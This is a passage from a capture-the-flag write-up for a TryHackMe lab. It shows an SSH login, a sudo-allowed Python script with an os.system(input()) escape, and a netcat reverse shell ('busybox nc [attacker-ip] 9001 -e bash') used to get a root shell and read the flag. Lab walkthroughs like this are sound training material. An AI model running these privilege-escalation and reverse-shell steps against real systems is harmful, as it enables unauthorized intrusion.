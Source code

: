 With the decrypted password, I was able to log in as `condor` via SSH:
```bash
kali@kali:~/ctf/mnemonic$ ssh condor@10.10.198.59 -p 1337
condor@mnemonic:~$ id
  uid=1002(condor) gid=1002(condor) groups=1002(condor)
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
condor@mnemonic:~$ sudo -l
[sudo] password for condor: 
  Matching Defaults entries for condor on mnemonic:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User condor may run the following commands on mnemonic:
      (ALL : ALL) /usr/bin/python3 /bin/examplecode.py

```

While analyzing the Python script for a privilege escalation opportunity, a particular code section caught my attention:
```python
condor@mnemonic:~$ cat /bin/examplecode.py
  [...]
  if select == 0: 
      time.sleep(1)
      ex = str(input("are you sure you want to quit ? yes : "))

      if ex == ".":
              print(os.system(input("\nRunning....")))
      if ex == "yes " or "y":
              sys.exit()
  [...]
```

The script allowed me to run any command after starting it, selecting 0 to exit and inserting `.`:
```bash
condor@mnemonic:~$ sudo /usr/bin/python3 /bin/examplecode.py

Select:0
are you sure you want to quit ? yes : .

Running....busybox nc [attacker-ip] 9001 -e bash
```

I was able to escalate my privileges using a reverse shell and successfully retrieved the root flag:
```bash
listening on [any] 9001 ...
connect to [attacker-ip] from (UNKNOWN) [10.10.8.8] 45618
id
  uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
  THM{c[removed]e}
```

After creating the MD5 hash of the content from the string I found in the `root.txt`, I was able to submit it.
```text
THM{c[removed]e} -> md5(c[removed]e) -> THM{2[removed]6}
```

solved! :)